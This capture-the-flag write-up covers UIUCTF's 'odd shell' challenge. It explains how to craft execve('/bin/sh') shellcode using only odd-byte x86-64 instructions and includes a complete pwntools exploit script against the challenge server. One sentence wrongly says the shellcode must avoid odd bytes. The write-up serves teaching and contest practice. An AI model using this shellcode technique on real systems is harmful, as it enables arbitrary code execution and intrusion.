


Shellcoding but with only odd bytes.

# Intro

Challenge description:

> O ho! You found me! I have a display of oddities available to you!

Challenge files:

- [chal](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/chal)
- [Dockerfile](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/Dockerfile)
- [nsjail.cfg](../assets/posts/2022-07-31-odd-shell-writeup/challenge-files/nsjail.cfg)

Security mitigations:



# Program analysis

The program is pretty simple:



1. A page with the size `0x100` gets allocated at `0x123412340000` in memory. The page can read, write, and execute data.

2. The input is read to the allocated page.

3. If the input ends with a new line character, it will get replaced with a null byte.

4. The for loop iterates every byte of the input, and if the byte is even, it exits. In other words, only odd bytes are allowed in the input.

5. The input is interrupted as instructions.

Ok, so we need to create a shellcode that doesn't contain any odd bytes.

# Shellcoding

The goal is to execute `execve("/bin/sh", NULL, NULL)`

To set up the `execve` syscall, the registers need to be in this state:

- rdi = address of "/bin/sh" string
- rsi = 0x0
- rdx = 0x0
- rax = 0x3b

`0x3b` is the syscall number for `execve`

There is no odd bytes in `syscall` --> `0xf 0x5`

After spending some time reading [X86 Opcode and Instruction Reference](http://ref.x86asm.net/coder64.html) and testing.

I found the following useful instructions with only odd bytes:

- `xor edi, edi` --> `0x31 0xff`
- `inc edi` --> `0xff 0xc7`
- `xchg edi, esi` --> `0x87 0xf7`
- `shl edi` --> `0xd1 0xe7`

While the above instructions are useful, we can only access the lower 4 bytes of the register, we need a way to access the upper 4 bytes of the register.

The problem is the `0x48` or `"H"` byte is preventing me from accessing the full register. For example: `shl rdi` --> `0x48 0xd1 0xe7`

I found that `r9-r15` registers use the `0x49` byte:exclamation:

We can only use `r9, r11, r13, r15`. However, we still have to write "/bin/sh" string byte by byte. ("/bin/sh" in little endian: `68732f6e69622f`)

I used these instructions in the shellcode.

Clear register: `xor r11, r11`

Exchange value between the two registers: `xchg r11, rdi`

Write the odd byte to pass the filter, then increment it:

```
add r11, 0x67
inc r11
```

shift everything by 1 byte:

```
.rept 8
shl r11
.endr
```

# Solve script

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.log_level = "info"

gdb_script = """
b *main+215
b *main+269
b *main+349
"""

assembly_shellcode = """
xor r11, r11

// build "/bin/sh" byte by byte in r11
add r11, 0x67
inc r11
.rept 8
shl r11
.endr

add r11, 0x73
.rept 8
shl r11
.endr

add r11, 0x2f
.rept 8
shl r11
.endr

add r11, 0x6d
inc r11
.rept 8
shl r11
.endr

add r11, 0x69
.rept 8
shl r11
.endr

add r11, 0x61
inc r11

.rept 8
shl r11
.endr

add r11, 0x2f

// push "/bin/sh" to stack and set rdi to rsp
push r11
xor r11, r11
add r11, rsp
xchg r11, rdi

// set rsi and rdx to NULL
xor r11, r11
xchg r11, rsi
xor r11, r11
xchg r11, rdx

// set rax to execve syscall num
xor r11, r11
add r11, 0x3b
xchg r11, rax

// execve("/bin/sh", NULL, NULL)
syscall
"""

shellcode = pwn.asm(assembly_shellcode)

for i, b in enumerate(bytearray(shellcode)):
    even = (b & 1)
    assert even, print(f"[error], {i}: {hex(b)}")

HOST, PORT = ("odd-shell.chal.uiuc.tf", 1337)
with pwn.remote(HOST, PORT) as p:
#with pwn.process(["./chal"], env={}) as p:
#with pwn.gdb.debug(["./chal"], gdbscript=gdb_script) as p:
    init = p.recvuntil(b":\n")
    payload = shellcode
    p.sendline(payload)
    p.interactive()
```
